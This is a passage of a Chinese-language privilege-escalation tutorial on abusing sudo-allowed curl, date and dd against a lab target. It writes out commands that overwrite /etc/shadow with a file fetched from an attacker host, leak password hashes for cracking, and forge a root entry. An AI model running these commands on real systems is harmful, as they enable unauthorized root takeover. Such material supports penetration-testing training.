 3. 存入 **shadow_evil** 文件中

![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685602738928-5628ff4f-f004-4804-89e9-533cf34667b3.png#averageHue=%23333641&clientId=ucada80b3-aeb4-4&from=paste&height=208&id=u84f67778&originHeight=260&originWidth=1195&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=166667&status=done&style=none&taskId=u032b57dd-9e1e-4972-bad1-2226081900e&title=&width=956)

4. **curl** 下载 覆盖  **/etc/shadow**
```bash
sudo curl http://192.168.65.130/shadow_evil -o /etc/shadow 

# 注意覆盖写入，执行前应对 /etc/shadow 备份，以防提权后靶机崩溃

# -o 写入文件，不是标准输出
# -O 将输出写入名为远程文件的文件
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685619336563-580be3e6-61e8-428f-94ae-97fab3bb8208.png#averageHue=%23222434&clientId=ucada80b3-aeb4-4&from=paste&height=288&id=u83276776&originHeight=360&originWidth=1061&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=278570&status=done&style=none&taskId=ua14cfacb-4228-4251-aad0-7613737c813&title=&width=848.8)
## 情景二十一 - date
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685603411948-8c41dc97-1965-427f-a1a3-d0833646c25e.png#averageHue=%23474951&clientId=ucada80b3-aeb4-4&from=paste&height=148&id=u5bc93960&originHeight=185&originWidth=613&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=46535&status=done&style=none&taskId=u3751de0f-be3c-481f-a982-dbbc34df308&title=&width=490.4)
```bash
sudo date -f /etc/shadow

# -f 让 date 解析指定文件，输出日期
# 这里会报错，报错会输出 /etc/shadow 内容
```
泄露 **/etc/shadow** 信息
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685603859277-0bd81b3a-636e-4844-a205-2761cb0d8edd.png#averageHue=%232e3240&clientId=ucada80b3-aeb4-4&from=paste&height=333&id=u070936e4&originHeight=416&originWidth=1300&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=346572&status=done&style=none&taskId=uf25a38d1-6511-4d88-b7fc-9e754dc1d0a&title=&width=1040)
这样就可以** john** 爆破出 **root** 密码以实现提权。
## 情景二十二 - dd
dd - data duplicate 一个简单的数据复制工具。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685607773406-d10b64d3-66e4-4793-8894-3f5c03a70eee.png#averageHue=%23636469&clientId=ucada80b3-aeb4-4&from=paste&height=69&id=u822a5a17&originHeight=86&originWidth=424&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15952&status=done&style=none&taskId=u3cc226a9-dd8f-4ae0-8bf2-01cb7a5a6b6&title=&width=339.2)

1. 先在本地创建一个 **SHA-512** 密码
```bash
mkpasswd -m sha-512 kali
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595367206-e9c035cb-e59a-4737-a71b-2ec477ed5aeb.png#averageHue=%23585b61&clientId=udc675dd6-1ea4-4&from=paste&height=90&id=tSafL&originHeight=113&originWidth=1466&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61260&status=done&style=none&taskId=u490fd264-7b4d-40e7-a8db-90e190d420a&title=&width=1172.8)

2. 拼接为 **/etc/shadow **文件的格式

![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685595538725-9c24ab9b-56cf-48fd-84d3-1abf3b8e327c.png#averageHue=%2353565c&clientId=udc675dd6-1ea4-4&from=paste&height=118&id=oiN4l&originHeight=147&originWidth=1786&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=97666&status=done&style=none&taskId=u678f0233-d40c-46e2-adf0-36c237d8f1a&title=&width=1428.8)

3. 执行 数据  覆盖  **/etc/shadow**
```bash
echo '[root:root_pass]' | sudo dd of=/etc/shadow
# of=/etc/shadow
# of - out file 输出到文件

# 注意覆盖写入，执行前应对 /etc/shadow 备份，以防提权后靶机崩溃
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685608365697-6d3c565f-61f4-4726-a215-ead3a40cff9c.png#averageHue=%23363941&clientId=ucada80b3-aeb4-4&from=paste&height=382&id=ub7eff6ad&originHeight=478&originWidth=1115&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=165815&status=done&style=none&taskId=uad3c66fa-ad5b-4d5c-b0ee-90588a9937f&title=&width=892)
## 情景二十三 - dstat
用于生成系统资源统计信息的多功能工具
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685613974648-735f170f-d24a-4ad3-804c-72b337d69ed8.png#averageHue=%231f2434&clientId=ucada80b3-aeb4-4&from=paste&height=162&id=u79710760&originHeight=203&originWidth=909&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=162909&status=done&style=none&taskId=u6a3a35e4-7e4f-4b15-94f5-be0f1e5e937&title=&width=727.2)
可以无密码以 **root** 权限执行 **dstat**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685619741240-43d2114a-a7dc-467c-8ac1-75e13a0ed339.png#averageHue=%23292b37&clientId=ucada80b3-aeb4-4&from=paste&height=64&id=u9214d969&originHeight=80&originWidth=463&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=39843&status=done&style=none&taskId=u70d021c6-410a-40cc-add0-1903b727747&title=&width=370.4)
